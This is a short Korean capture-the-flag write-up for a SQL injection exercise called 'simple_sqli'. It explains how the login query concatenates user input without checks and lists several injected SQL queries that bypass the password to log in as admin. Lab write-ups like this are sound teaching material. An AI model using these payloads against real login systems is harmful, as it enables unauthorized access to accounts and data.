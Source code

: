 ## 📍simple_sqli

```
로그인 서비스입니다.  
SQL INJECTION 취약점을 통해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.
```

관리자 계정으로 로그인하면 화면에 FLAG가 출력된다.

#### 소스코드

**login** 페이지는 입력받은 `userid`, `userpassword`를 DB에서 조회하고 이에 해당하는 데이터가 있는 경우 로그인을 수행한다.
![[{B607DA3B-7FF6-44E6-85A9-E69B1C77D59B}.png]]

admin 계정의 비밀번호는 랜덤 16바이트의 문자열이기 때문에 값을 예상할 수 없다.


#### 취약점

login 페이지에서 `userid`와 `userpassword`를 이용자에게 입력받고, 동적으로 쿼리문을 생성한 뒤 `query_db` 함수에서 DB에 질의한다.
이렇듯 동적으로 생성한 쿼리를 **RawQuery**라고 한다.
RawQuery를 생성할 때 이용자의 입력값이 쿼리문에 그대로 포함되면 SQL Injection 취약점에 노출될 수 있다.
(이용자의 입력값을 검사하는 과정이 없음)
임의의 쿼리문을 `userid` 또는 `userpassword`에 삽입해 SQL Injection 공격을 시도한다.


#### 해결

로그인을 위해 실행하는 쿼리문: `SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";`

`userpassword`를 검사하는 과정을 생략할 수 있게 다음과 같이 입력한다.

![[{1E865DA1-F5C1-4F4A-B84C-083A3E3BF6F3}.png]]

![[{CD50907D-64F4-4751-8675-417225786EE2}.png]]


#### 다른 해결법

```sql
/* userid 검색조건 뒤에 OR 조건을 추가해 뒷 내용이 뭐든 admin 반환 */
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword=""
/* userid 검색조건에 admin, userpassword에 임의 값을 입력하고 OR 조건을 추가 */
SELECT * FROM users WHERE userid="admin" AND userpassword="" OR userid="admin"
/* userid 검색조건 뒤에 OR 1을 추가해 테이블의 모든 내용을 반환하도록 하고, LIMIT 절을 이용해 두 번째 Row인 admin을 반환하도록 함 */
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword=""
```